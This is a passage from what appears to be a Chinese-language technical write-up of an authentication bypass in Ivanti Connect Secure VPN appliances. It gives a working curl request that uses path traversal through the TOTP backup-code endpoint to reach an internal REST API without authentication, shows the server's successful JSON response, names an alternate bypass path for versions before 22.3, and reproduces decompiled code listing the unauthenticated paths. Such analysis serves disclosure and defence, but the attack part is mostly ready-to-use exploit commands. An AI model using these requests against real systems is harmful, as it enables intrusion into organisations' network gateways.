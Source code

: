 ```

```  
  
  
由以上逻辑可知可以通过/api/v1/totp/user-backup-code  
和目录穿越绕过权限检查，访问python rest 服务。  
```
```  
```
➜  ivanti curl -ik --path-as-is https://192.168.59.38/api/v1/totp/user-backup-code/../../license/keys-status
HTTP/1.1 200 Connection established

HTTP/1.1 200 OK
Content-Type: application/json
Content-Length: 354

{"ive-licCount":0,"ive-maxccu":2,"ive-maxnuc":0,"ive-struct":{"node-data":[{"graceStr":"","hardware-id":"XXX","isReachable":1,"ive-cl-count":0,"ive-hostId":"localhost2","ive-name":"localhost2","ive-named-user-count":0,"ive-user-count":0,"license-keys":[],"num-lic":0,"serial-num":"XXX"}],"num-node":1}}

```  
  
但/api/v1/totp/user-backup-code  
路径仅存于22.3及以上，对于版本低的，需要使用/api/v1/cav/client/status/  
接口绕过权限验证。  
```
  
```  
```
if ( !memcmp(v17, "/dana-na/", 9u)
    || !memcmp(*((const void **)a1 + 16), "/dana-cached/setup/", 0x13u)
    || !memcmp(*((const void **)a1 + 16), "/dana-cached/sc/", 0x10u)
    || !strncmp(s1, "/dana-cached/hc/", 0x10u)
    || !strncmp(s1, "/dana-cached/cc/", 0x10u)
    || !strncmp(s1, "/dana-cached/ep/", 0x10u)
    || !strncmp(s1, "/dana-cached/psal/", 0x12u)
    || !strncmp(s1, "/dana-cached/remediation/", 0x19u)
    || !strncmp(s1, "/dana-ws/saml20.ws", 0x12u)
    || !strncmp(s1, "/dana-ws/samlecp.ws", 0x13u)
    || !strncmp(s1, "/adfs/ls", 8u)
    || !strncmp(s1, "/api/v1/profiler/", 0x11u)
    || !strncmp(s1, "/api/v1/cav/client/", 0x13u) && strncmp(s1, "/api/v1/cav/client/auth_token", 0x1Du) )
  {
    return 1;
  }
  sub_50540(*((_DWORD *)a1 + 3));
  if ( (unsigned __int8)sub_7D260() )
    return 1;
  v18 = (const char *)*((_DWORD *)a1 + 16);
  if ( !strncmp(v18, "/api/v1/ueba/", 0xDu)
    || !strncmp(v18, "/api/v1/integration/", 0x14u)
    || !strncmp(v18, "/api/v1/dsintegration", 0x15u)
    || !strncmp(v18, "/api/v1/pps/action/", 0x13u)
    || !strncmp(v18, "/api/my-session", 0xFu)
    || !strncmp(v18, "/api/v1/esapdata", 0x10u)
    || !strncmp(v18, "/api/v1/sessions", 0x10u)
    || !strncmp(v18, "/api/v1/tasks", 0xDu)
    || !strncmp(v18, "/api/v1/gateways", 0x10u)
    || !strncmp(v18, "/_/api/aaa", 0xAu)
    || !strncmp(v18, "/api/v1/oidc", 0xCu) )
  {
    return 1;
  }
```